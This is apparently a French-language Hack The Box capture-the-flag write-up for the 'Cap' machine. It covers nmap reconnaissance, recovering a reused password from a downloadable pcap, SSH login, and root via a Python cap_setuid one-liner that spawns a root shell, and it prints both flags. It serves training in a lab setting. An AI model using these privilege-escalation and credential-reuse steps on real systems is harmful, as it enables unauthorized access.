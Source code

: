 ```yaml
---
title: "[HTB] Cap"
description: "Easy"
date: 2023-03-28T00:00:00+00:00
tags: ["HTB", "Easy", "writeup"]
type: post
showTableOfContents: true
---
```

# [HTB - Easy] Cap
https://www.hackthebox.com/achievement/machine/793201/351
# nmap
```┌─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ nmap 10.10.10.245
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 22:35 BST
Nmap scan report for 10.10.10.245
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```
# http
On remarque qu'on est connecté de base a l'utilisateur "Nathan"
On trouve ensuite que le site permet de telecharger des trames réseaux:
http://10.10.10.245/data/0
on download le pcap numero 0 et on l'analyse ensuite avec Wireshark
https://prnt.sc/FOhViY3Avep-
on trouve alors le mot de passe de Nathan (utilisé pour le ftp)

# ssh
le mot de passe ftp de Nathan et le même sur son ssh:
```
─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ ssh nathan@10.10.10.245
```
On récupère alors le flag de l'user:
```
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
ebd6713a9539c2c987b214d1a48bc21c
```
# privesc
On cherche si on a des vulnérabilité lié aux capabilities:
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
On voit de de suite ici que python3.8 est surement vulnérable a un exploit de type setuid. On peut trouver les exploits de capabilities sur:
https://gtfobins.github.io/gtfobins/python/#capabilities
```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```
On est bien root !
il ne reste plus qu'a récupérer le dernier flag:
```
# cat /root/root.txt
0987dc49d725b0d0f38fe7f6349b266c
```
